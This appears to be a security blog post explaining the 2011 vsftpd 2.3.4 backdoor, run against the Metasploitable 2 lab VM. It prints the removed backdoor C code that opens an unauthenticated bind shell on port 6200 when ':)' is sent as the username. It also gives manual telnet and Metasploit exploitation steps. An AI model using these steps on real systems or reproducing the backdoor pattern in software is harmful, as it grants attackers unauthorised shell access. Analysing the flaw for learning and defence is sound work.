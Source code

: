 ```yaml
---
layout: post
title:  "VSFTPD 2.3.4"
categories: Vulnerabilities
tags: [backdoor, exploit, python]
---
```


### Introduction

Between June 30th - July 1st 2011 a backdoor was introduced into the vsftpd-2.3.4.tar.gz archive this backdoor allowed an attacker to get a bind shell to the system and thus compromising the system. Although the backdoor was removed quickly (July 3rd 2011) a lot of people downloaded this vulnerable version of VSFTPD, causing quite a lot of panic for sysadmins.

### So, how does it work?

In general, it's actually a pretty simple exploit, and whilst there is a Metasploit module you really don't need to use it. The backdoor payload is initiated in response to a user sending `:)` to the server upon being prompted for a username, by sending that smiley face to the server it executes a function which opens a bind shell listener on port 6200 of the affected device.

### Code Review

```
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
```

As you can see in the above code, we're checking if some input is equal to a certain value, to be specific, we're checking if the user input is equal to `0x3a` and `0x29` if this is true then we're executing `vsf_sysutil_extra();` a quick Google on `0x3a` tells you it's a `:` and a further Google on `0x29` shows a `)` so as you can see there is the smiley face. So, now we know that we have this special input, let's look at the `vsf_sysutil_extra();` function as right now we don't have anything that resembles a vulnerability.

```
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
```

As you can see above, we're creating a bind socket and setting up a listener process on that socket. We're opening this socket on port 6200 and that is where the vulnerability lies, because we can now connect to this socket without *any* authentication process taking place.

### Exploit

As I mentioned earlier we can exploit this using the Metasploit module `exploit/unix/ftp/vsftpd_234_backdoor` however, we can carry out this exploit manually fairly easily, we will look at both methods in this post.

It's worth noting for the below exploitation examples I am using [Metasploitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2)

#### Manual Exploitation

Firstly, let's telnet to our affected device on port 21 using `telnet ip port` once we do that we'll be asked for a username & password, let's use `:)` as the username & `pass` as the password. If we wait a few seconds then port 6200 should be opened, you can also manually escape with `^]` but waiting also works.

Now if we run an nmap scan on our target we should see that port 6200 is open, we can now use `telnet ip port` again and that's it! We now have shell access, if the service was running on a root account in a network we'd now have a root account in that network, simple, right? 


#### Metasploit Exploitation

As I mentioned, we can use the Metasploit module to carry out this attack however I do actually prefer doing it manually, nonetheless, let's get into this. Once again I am using [Metaspolitable 2](https://metasploit.help.rapid7.com/docs/metasploitable-2) as my target.

Start Metasploit using `msfconsole` then run `use exploit/unix/ftp/vsftpd_234_backdoor` now all we need to do is configure the host of the target, if you use `show options` you should see the `RPORT` field is already correct, to set the `RHOST` field use `set rhost ip` then we just type `run` and that's it, the script will carry out the attack for you, with a few exceptions it pretty much just does what you did manually, you can find a link to the Rapid7 page at the bottom of this post. But that's it! That's all we needed to do, now you have a shell.

![Metasploit Example](/assets/images/vsftpd234/vsftpd234.PNG)

### Python Exploitation

After browsing the Internet for a while I found this [blog post](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159) which showed an implementation of the Metasploit module in Python. As you can see, this is a Python 2 implementation, so for my own benefit I decided to rewrite the script into Python 3, you can find my Python 3 implementation repo [here](https://github.com/LinxzFade/vsftpd234-Backdoor)


### References

[Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)

[vsftpd 2.3.4 Vulnerable Code](https://pastebin.com/AetT9sS5)

[Metasploit Module Exploit Code](https://www.exploit-db.com/exploits/17491/)

[Python 2 Exploit Implementation](https://0x00sec.org/t/re-building-a-vsftpd-backdoor-exploit-in-python/159)

